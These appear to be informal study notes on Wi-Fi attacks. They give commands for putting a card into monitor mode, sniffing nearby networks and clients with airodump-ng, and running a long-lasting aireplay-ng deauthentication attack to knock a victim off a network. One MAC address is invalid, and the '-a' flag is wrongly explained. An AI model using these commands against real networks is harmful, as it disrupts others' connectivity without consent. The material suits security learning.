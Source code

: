 If the mode is in managed it will only capture the packets only with destinnation mac as our mac. We need to cature all the packets. So we need to enable monitor mode:

▶️>		ifconfig wlan0 down

▶️> airmon-ng check kill [This kills all the process that interfear our process] [This will kill our internet connection also, but now we dont need a connection for pre-connection attacks]

▶️> iwconfig wlan0 mode monitor

▶️> ifconfig wlan0 up

Now we can capture all the packets flowing in the netowrk even if that is not directed to us. So we can do packet sniffing/capturing only if monitor mode is enabled.[Now the name of our interface may be changed from wlan0 to mon0]


▶️> airodump-ng mon0 [this will show all the wireless networks around us]

Now lets target a specific network to gather more info:

▶️> airodump-ng --bssid 08:00:27:c7:e1:36 --channel 2 --write test mon0 [This will store the information discovered in a file named test] [THIS WILL ALSO DISOVER THE CLIENTS CONNECTED TO THAT NETWORK. WE CAN SEE THEM IN THE 'STATION' SECTION. SO EVEN WITHOUT CONNECTING TO THAT  NETWORK WE ARE ABLE TO SEE THE CLIENTS ALSO😈️.]

In some cases we can see some devices under the probe section, they are the devices that trying to connect to that network.

Now stop the capturing to see the rresult. Our result will be stored in a .cap file withour filename test.




NOW WE WILL USE WIRESHARK TO ANALYZE THIS FILE.

>Wireshark >file >open  >>open the result file


we can see the device names that are connected to the network there(eg:samsung, apple etc...). So we can get a quick info about what computers are there and ehat os they use...
	
	

NOW LETS DO SOME DEAUTHENTICATION ATTACKS [disconnect any client from any network without connecting] (Works only in wireless network not on wired)
-----------------------------------------------------------------------------------------------------
For this we are going to pretend to be the client that we want to disconnect by changing our mac address to the mac address of the client and tell the router that i want to dissconnect from you and we are going to pretend as the router by changing our mac to routers mac and tell the client that u are request to disconnnect and i am disconnecting you.

We are going to use Aireplay-ng for that.


▶️> aireplay-ng --deauth 1000000000 -a 08:00:27:c7:e1:36 -c f8:00:65:g3:a2:98 mon0 
[1000000000 is the no: of deauthentication packets that we send. Give it a large number like this to keep sending for a large number of time.] 
[ -a is our mac and -c is the client/victims mac that we want to disconnect]
[Run 'airodump-ng --bssid 08:00:27:c7:e1:36 --channel 2 mon0' along with the deauth attack to see the devices connected to that network so that we can see the client disconnected from the network live]
